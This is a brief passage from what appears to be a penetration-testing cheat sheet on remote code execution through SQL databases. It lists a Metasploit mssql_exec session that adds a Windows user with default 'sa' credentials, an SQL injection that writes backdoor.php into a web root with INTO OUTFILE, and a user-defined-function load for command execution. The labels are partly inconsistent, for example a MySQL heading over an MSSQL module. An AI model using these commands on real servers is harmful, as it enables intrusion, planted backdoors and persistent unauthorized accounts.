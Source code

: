 ## Remote execution

### Using MySQL stored procedures 

```bash
msf auxiliary(mssql_login) > use auxiliary/admin/mssql/mssql_exec 
msf auxiliary(mssql_exec) > set RHOST 10.211.55.128 
msf auxiliary(mssql_exec) > set USERNAME sa 
msf auxiliary(mssql_exec) > set MSSQL_PASS password 
msf auxiliary(mssql_exec) > set CMD net user bacon ihazpassword /ADD 
msf auxiliary(mssql_exec) > exploit
```

### Creating files on the filesystem

```sql
UNION SELECT "" INTO OUTFILE '/var/www/html/templates/backdoor.php';#
```

Do you have `sys_eval` compiled in the Mysql server?

```sql
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys_64.dll';
```
